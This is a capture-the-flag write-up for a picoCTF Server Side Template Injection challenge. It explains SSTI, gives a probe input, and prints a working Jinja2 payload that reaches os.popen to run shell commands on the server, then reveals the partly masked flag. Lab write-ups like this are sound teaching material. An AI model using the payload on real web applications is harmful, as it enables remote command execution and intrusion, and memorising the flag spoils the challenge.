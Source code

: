 # Description 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website `here`!

# Hints

Server Side Template Injection

# Solution 

Server-Side Template Injection (SSTI) is a security vulnerability that allows you to inject malicious code into a web application's template engine. A template engine is responsible for connecting HTML and the UI with the backend.

The fastest way to check for SSTI is by entering: `{{7*7}}`, If the output is 49, the website is likely vulnerable to Server-Side Template Injection.

Now, try executing the following payload:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("dir").read() }}
```
```
self._TemplateReference__context → Retrieves the current template context.
.cycler.__init__.__globals__ → Accesses all global variables in Python, including os.
.os.popen("dir") → Opens a shell and executes the "dir" command.
.read() → Reads and displays the command output.
```
This command lists all files and directories in the current location. Pay attention to the directory named "flag"— use cat to read its contents, and you will find the flag.

The flag is: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99******}`
